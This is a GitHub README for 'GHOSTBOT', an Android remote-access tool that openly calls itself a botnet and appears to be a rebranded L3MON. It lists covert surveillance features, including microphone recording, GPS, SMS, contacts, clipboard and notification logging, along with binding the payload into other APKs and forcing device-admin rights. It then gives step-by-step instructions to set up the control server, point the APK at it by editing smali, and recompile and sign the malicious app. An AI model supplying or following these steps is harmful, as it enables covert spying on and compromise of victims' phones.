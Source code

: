 <p align="center">
<img src="https://github.com/Ba-hub/GHOSTBOT/raw/master/assets/webpublic/logo.png" height="60"><br>
A cloud based remote android managment suite(Botnet), powered by NodeJS
</p>



## Features
- GPS Logging
- Microphone Recording
- View Contacts
- SMS Logs
- Send SMS
- Call Logs
- View Installed Apps
- View Stub Permissions
- Live Clipboard Logging
- Live Notification Logging
- View WiFi Networks (logs previously seen)
- File Explorer & Downloader
- Command Queuing
- Built In APK Builder
- Easily Bind with Another Apk
- Enable Device Admin Apk 
- Enable all permission in run time 

## Prerequisites 
 - Java Runtime Environment 8
    - See [installation](#Installation) for OS specifics
 - NodeJs 
 - A Server

## Installation 
1. Install JRE 8 (We cannot stress this enough USE java 1.8.0 ANY issues that dont use this will be closed WITHOUT a response)
    - Debian, Ubuntu, Etc
        - `sudo apt-get install openjdk-8-jre`
    - Fedora, Oracle, Red Hat, etc
        -  `su -c "yum install java-1.8.0-openjdk"`
    - Windows 
        - click [HERE](https://www.oracle.com/technetwork/java/javase/downloads/jre8-downloads-2133155.html) for downloads

2. Install NodeJS [Instructions Here](https://nodejs.org/en/download/package-manager/) (If you can't figure this out, you shouldn't really be using this)

3. install PM2 
    - `npm install pm2 -g`


4. In the extracted folder, run these commands
    - `npm install` <- install dependencies
    - `pm2 start index.js` <-- start the script
    - `pm2 startup` <- to run GHOSTBOT on startup

5. Set a Username & Password
    1. Stop GHOSTBOT `pm2 stop index`
    2. Open `maindb.json` in a text editor
    3. under `admin` 
        - set the `username` as plain text
        - set the `password` as a LOWERCASE MD5 hash
    4. save the file
    5. run `pm2 restart all`

6. in your browser navigate to `http://<SERVER IP>:22533`

### Manually Apk Build by ApkEditor:
```


Go to com/etechd/l3mon/IOSocket.smali Go line No 77 add
Listening address as "http://webaddress?model=" Save Recompile & Signed.



```

### For Apktool recompiler :

```

$/> sudo apt-get install apktool

Go To /app/factory folder unzip the ghostbot-apktool-compiler, commands below 

$/> apktool b ghostbot-apktool-compiler -o GHOSTBOT.apk 

```

### Sign & Zipalign Apk 
``` 

$/> sudo apt-get install apksigner
$/> sudo apt-get install zipalign 

#~ Generate Key

 

$/> keytool -genkey -v -keystore my.keystore -keyalg RSA -keysize 2048 -validity 10000 -alias

app

 



#~ align apk 

 

$/> zipalign -p 4 GHOSTBOT.apk Aligned-Ghostbot.apk

 

 

#~ Verify aligned apk 

 

$/> zipalign -c 4 Aligned-Ghostbot.apk

 

 

#~ Sign by generated key

 

$/> jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my.keystore 

Aligned-Ghostbot.apk my_alias_name 

 

 

#~ verify signature 

 

$/> jarsigner -verify -verbose Aligned-Ghostbot.apk


```
    
    

<br>
<p align="center">Made with 💀 By <a href="http://iconicbabay.medianewsonline.com">Ghosthub</a></p>
<p align="center" style="font-size: 8px">v0.1.3</p>
